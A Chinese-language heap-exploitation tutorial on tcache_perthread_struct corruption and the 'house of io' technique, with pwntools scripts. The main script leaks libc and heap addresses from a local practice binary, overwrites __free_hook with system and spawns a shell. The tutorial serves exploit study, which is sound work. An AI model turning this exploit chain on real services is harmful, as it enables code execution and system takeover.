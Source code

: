 # tcache perthread corruption

## 1.基本原理

tcache_perthread_struct 通常处在 heap 的最开始，通常使用 tcache poisoning malloc 控制，并且如果控制了 tcache_perthread_struct，那么整个 tcache 也就相当于被控制了，我们也可以实现任意地址 malloc 了

tips：获取地址时，我们可以使用泄露的堆地址 `& ~0xfff`, 因为 tcache_perthread_struct 在 heap 开始的地方，末 3 位是 0



此外，house of io利用手法也是利用的tcache_perthread_struct 结构体，想办法将其释放掉，然后再申请回来，申请回来的时候就能控制整个 tcache 的分配。但是这里需要注意，我们需要在0x240大小的堆块上进行操作，这样申请到tcache_perthread_struct 的时候该tcache的count就为-1了，释放的时候就不会进入tcache了，而是进入unsorted bin

```python
add_chunk(2, 0x240)
delete_chunk(2)
delete_chunk(2)
add_chunk(2, 0x240)
show_chunk(2)
heap_addr = u64(rl()[0:4].ljust(8, b"\x00")) & ~0xfff
li("heap_addr", heap_addr)

edit_chunk(2, p64(heap_addr + 0x10))
add_chunk(0, 0x240)
add_chunk(0, 0x240)
delete_chunk(0)
add_chunk(0, 0x240)
gdb.attach(p)

it()
```

![image-20250222092001399](./assets/10.tcache_perthread_corruption/image-20250222092001399.png)

## 2.利用思路

漏洞程序参考漏洞程序参考 unsortedbin leak 的测试程序

```python
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test_tcache'
elf = ELF(elf_path)
libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
context(arch=elf.arch, os=elf.os, log_level="debug")

p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

# leak libc
add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
libc_addr = u64Leakbase(0x3ebca0)
li("libc_addr", libc_addr)

add_chunk(2, 0x100)
delete_chunk(2)
delete_chunk(2)
add_chunk(2, 0x100)
show_chunk(2)
heap_addr = u64(rl()[0:4].ljust(8, b"\x00")) & ~0xfff
li("heap_addr", heap_addr)
edit_chunk(2, p64(heap_addr))
add_chunk(2, 0x100)
add_chunk(2, 0x100)

edit_chunk(2, p8(7)*64 + p64(libc.sym['__free_hook'] + libc_addr)*64)
add_chunk(2, 0x10)
edit_chunk(2, p64(libc.sym['system'] + libc_addr))
add_chunk(3, 0x10)
edit_chunk(3, b'/bin/sh\x00')
delete_chunk(3)
# gdb.attach(p)

it()
```

